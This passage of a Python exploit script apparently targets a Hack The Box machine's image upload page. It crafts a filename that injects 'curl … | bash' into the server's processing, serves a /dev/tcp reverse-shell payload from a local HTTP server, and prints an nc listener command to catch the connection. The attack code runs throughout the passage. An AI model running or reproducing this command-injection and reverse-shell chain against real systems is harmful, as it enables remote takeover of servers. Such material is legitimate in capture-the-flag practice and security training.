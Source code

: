 ```py
    rich.print(f"[red][-] Error: [/red]{txt}")
    sys.exit(1)

def status(txt: str, prefix=""):
    rich.print(prefix + f"[blue][*][/blue] {txt}")

def success(txt: str, prefix=""):
    rich.print(prefix + f"[green][+][/green] {txt}")

def start_server(args, payload):
    status(f"Use Listener:  [bold cyan]nc -nvlp {args.port} [/bold cyan]")

    try:
        handler = partial(WebHandler, payload)
        with socketserver.TCPServer(("", args.server_port), handler) as httpd:    
            status(f"Server Started on {args.server_port} (Ctrl+C to stop)\n")
            httpd.serve_forever()
    except KeyboardInterrupt:
        status("Quitting...")
        sys.exit(0)
    except Exception as e:
        error(f"Exception: {e}")
        sys.exit(1)

def upload_func(fn):
    s = r.session()
    # s.proxies = {"http": "http://127.0.0.1:8080"}
    url = "http://eforenzics.htb/upload.php"
    resp = s.post(url, files={"image": (fn, JPEG_BYTES), "upload": (None, "upload")})
    s.close()

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("ip", help="IP Address/Host for Callback")
    parser.add_argument('port', help="Port Number for Callback")
    parser.add_argument('-l', '--listen', dest="server_port", help="Port Number for Server Listen", default=55555)
    parser.add_argument('-s', '--shell', default="bash", help="Remote Shell")
    args = parser.parse_args()

    FILENAME_FMT = "curl {ip}:{port} | {shell} |"
    REVERSE_SHELL_FMT = "{shell} -i 5<> /dev/tcp/{ip}/{port} 0<&5 1>&5 2>&5"
    
    filename = FILENAME_FMT.format(shell=args.shell, ip=args.ip, port=args.server_port)
    payload = REVERSE_SHELL_FMT.format(shell=args.shell, ip=args.ip, port=args.port)

    # Start the HTTP server in a new thread
    server_thread = threading.Thread(target=start_server, args=(args,payload))
    server_thread.start()

    # Execute upload_func in a new thread after the server starts
    upload_thread = threading.Thread(target=upload_func, args=(filename,))
    upload_thread.start()

    # Wait for the upload to finish
    upload_thread.join()
```
